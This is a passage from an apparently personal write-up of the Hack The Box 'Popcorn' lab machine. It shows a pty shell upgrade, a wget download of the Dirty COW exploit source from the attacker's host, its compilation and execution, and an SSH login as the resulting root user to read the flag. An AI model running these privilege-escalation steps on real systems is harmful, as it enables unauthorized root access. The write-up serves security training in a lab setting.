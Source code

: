 $ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@popcorn:/home/george$
```

We try dirtyc0w exploit:

```
$ wget http://10.10.14.7:8000/dirty.c
--2021-06-27 18:21:41--  http://10.10.14.7:8000/dirty.c
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [text/x-csrc]
Saving to: `dirty.c'

     0K ....                                                  100%  380M=0s

2021-06-27 18:21:41 (380 MB/s) - `dirty.c' saved [5006/5006]

```

We compile it:

```
$ gcc -pthread dirty.c -o dirty -lcrypt
```

and we run it:

```
$ ./dirty
Please enter the new password: mammete
```

Now we can access through SSH with user `firefart`:

```
joshua@kaligra:/opt/htb/Popcorn$ ssh firefart@10.10.10.6
firefart@10.10.10.6's password:
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/

  System information as of Sun Jun 27 18:26:28 EEST 2021

  System load: 3.21              Memory usage: 17%   Processes:       126
  Usage of /:  7.6% of 14.80GB   Swap usage:   0%    Users logged in: 0

  Graph this data and manage this system at https://landscape.canonical.com/

Last login: Tue Oct 27 11:08:55 2020
firefart@popcorn:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:~# ls
root.txt
firefart@popcorn:~# cat root.txt
6a941efb2e826e2f3f98b7f6841fc505
```

